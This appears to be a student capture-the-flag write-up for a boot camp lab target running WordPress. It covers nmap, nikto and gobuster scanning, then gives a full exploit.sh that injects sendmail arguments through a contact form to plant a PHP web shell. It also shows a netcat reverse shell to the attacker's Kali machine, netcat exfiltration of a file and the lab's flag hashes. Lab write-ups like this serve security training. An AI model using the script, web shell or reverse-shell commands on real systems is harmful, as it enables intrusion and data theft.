

# Attacking Target 2

## Table of Contents
- [Discovering Vulnerabilities](#discovering-vulnerabilities)
- [Exploiting Discovered Vulnerability](#exploiting-discovered-vulnerability)
- [Flags](#flags)

### Discovering Vulnerabilities

- `nmap` scan
  - An nmap scan presented all abvailable ports.
    - Port 22 (SSH)
    - Port 80 (HTTP)
    - Port 111 (rpcbind)
    - Port 139 (netbios-ssn)
    - Port 445 (netbios-ssn)
  - `nmap -sS -sV 192.168.1.115`
- 

- `nikto` scan
  - A nikto scan revealed all dangerous files/CGIs, outdated server software and other problems.
- 

- `gobuster` scan
  - A gobuster scan brute-forced all available URI's and DNS subdomains.
- 

### Exploiting Discovered Vulnerability

-  A Contact Form 7 vulnerability was found.
  - This allowed an `exploit.sh` bash script to be run that allowed a `backdoor.php` file to be uploaded to the WordPress directory of the server.
```bash
#!/bin/bash
# Lovingly borrowed from: https://github.com/coding-boot-camp/cybersecurity-v2/new/master/1-Lesson-Plans/24-Final-Project/Activities/Day-1/Unsolved

TARGET=http://192.168.1.15/contact.php

DOCROOT=/var/www/html
FILENAME=backdoor.php
LOCATION=$DOCROOT/$FILENAME

STATUS=$(curl -s \
              --data-urlencode "name=Hackerman" \
              --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
              --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
              --data-urlencode "action=submit" \
              $TARGET | sed -r '146!d')

if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
  echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi
```

- The `backdoor.php` file allowed for execution of command injection attacks on the target website.
  - `http://<Target 2 URL>/backdoor.php?cmd=<CMD>` can now be run in the Kali browser that uses `backdoor.php` to open a shell session on the target.
  - `nc -lnvp 4444` was used on the Kali terminal to open a listening port on port `4444`.
  - On the Kali browser `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash` was used and a shell session was obtained on the target.
- 

### Flags

- `flag1.txt`: `a2c1f66d2b8051bd3a5874b5b6e43e21`
  - **Exploit Used**
    - Discovery of website directory listing.
    - After running a `gobuster` scan, the directory listing was found for the target and the flag was found at `http://192.168.1.115/vendor/PATH`
  - Commands run:
    - `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115`
    - `http://192.168.1.115/vendor/PATH` (In Kali web browser.)

- `flag2.txt`: `6a8ed560f0b5358ecf844108048eb337`
  - **Exploit Used**
    - Contact Form 7 vulnerability.
    - The `exploit.sh` script was run and installed a `backdoor.php` file on the target WordPress server that allowed a shell session on the target and the flag was found in `/var/www/flag2.txt`.
  - Commands run:
    - `bash ./exploit.sh`
    - `nc -lnvp 4444`
    - `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash' (In Kali web browser.)
    - `cd /var/www`
    - `cat flag2.txt`

- `flag3.png`: `a0f568aa9de277887f37730d71520d9b`
  - **Exploit Used**
    - Contact Form 7 vulnerability.
    - The `exploit.sh` script was run and installed a `backdoor.php` file on the target WordPress server that allowed a shell session on the target and the flag was found in `/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png`.
    - Netcat was used to exfiltrate the file to the attacking machine.
  - Commands run:
    - `bash ./exploit.sh`
    - `nc -lnvp 4444`
    - `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash` (In Kali web browser.)
    - `find /var/www -type f -iname 'flag*'`
    - `nc -l -p 4444 > flag3.png` (recieving)
    - `cat flag3.png | netcat 192.168.1.90 4444` (sending)
- 
